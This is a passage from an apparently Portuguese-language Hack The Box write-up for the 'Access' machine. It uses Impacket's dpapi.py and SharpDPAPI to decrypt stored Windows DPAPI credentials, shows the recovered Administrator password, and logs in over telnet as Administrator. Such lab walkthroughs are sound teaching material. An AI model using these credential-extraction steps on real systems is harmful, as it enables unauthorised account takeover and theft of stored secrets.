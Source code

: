 ```python
```

    Com a MasterKey decrypted, podemos usá-la para descriptografar o arquivo credentials.

> Decrypt Credentials

```python
python3 dpapi.py credential -file ~/Desktop/hackthebox/machines/to-do/access/Credentials -key 0xb360fa5dfea278892070f4d086d47ccf5ae30f7206af0927c33b13957d44f0149a128391c4344a9b7b9c9e2e5351bfaf94a1a715627f27ec9fafb17f9b4af7d2
Impacket v0.10.1.dev1+20220606.123812.ac35841f - Copyright 2022 SecureAuth Corporation

[CREDENTIAL]
LastWritten : 2018-08-22 21:18:49
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target      : Domain:interactive=ACCESS\Administrator
Description : 
Unknown     : 
Username    : ACCESS\Administrator
Unknown     : 55Acc3ssS3cur1ty@megacorp
```

    E boom, temos as credenciais do Administrator e podemos usá-la para conectar no telnet.

```bash
└─$ telnet 10.129.123.31                       
Trying 10.129.123.31...
Connected to 10.129.123.31.
Escape character is '^]'.
Welcome to Microsoft Telnet Service 

login: Administrator
password: 

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\Administrator>whoami
access\administrator

C:\Users\Administrator>
```



### DPAPI Localmente usando SharpDPAPI

    Como esse ctf não permite execução de arquivos .exe com o usuário "security", podemos usar a conta de admin para testar a ferramenta SharpDPAPI.

> Extrair MasterKey já decriptada e SID

```bash
C:\Users\Administrator\Desktop>SharpDPAPI.exe masterkeys /password:4Cc3ssC0ntr0ller

  __                 _   _       _ ___ 
 (_  |_   _. ._ ._  | \ |_) /\  |_) |  
 __) | | (_| |  |_) |_/ |  /--\ |  _|_ 
                |                      
  v1.11.1                               


[*] Action: User DPAPI Masterkey File Triage

[*] Will decrypt user masterkeys with password: 4Cc3ssC0ntr0ller

```